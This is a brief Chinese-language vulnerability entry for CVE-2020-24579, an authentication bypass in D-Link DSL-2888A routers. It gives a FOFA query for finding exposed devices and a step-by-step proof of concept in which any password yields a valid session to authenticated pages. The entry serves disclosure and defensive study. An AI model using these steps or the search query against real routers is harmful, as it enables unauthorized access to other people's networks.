

# D-link DSL-2888A 未授权访问漏洞 (CVE-2020-24579)

D-Link DSL-2888A devices 存在授权问题漏洞，该漏洞源于网络系统或产品中缺少身份验证措施或身份验证强度不足。

FOFA:

```
"DSL-2888A"
```

**PoC：**

```bash
1.访问路由器Web管理地址：http://192.168.1.1/
2.输入任何字符串作为密码进行登录
3.提示密码无效，但是创建了有效的访问会话
4.访问任何经过身份验证的页面，比如：/WiFi.shtml
http://192.168.1.1/WiFi.shtml
```




ref：

* http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202012-1471
* https://www.trustwave.com/en-us/resources/security-resources/security-advisories/?fid=28241
* https://forum.ywhack.com/thread-115029-1-1.html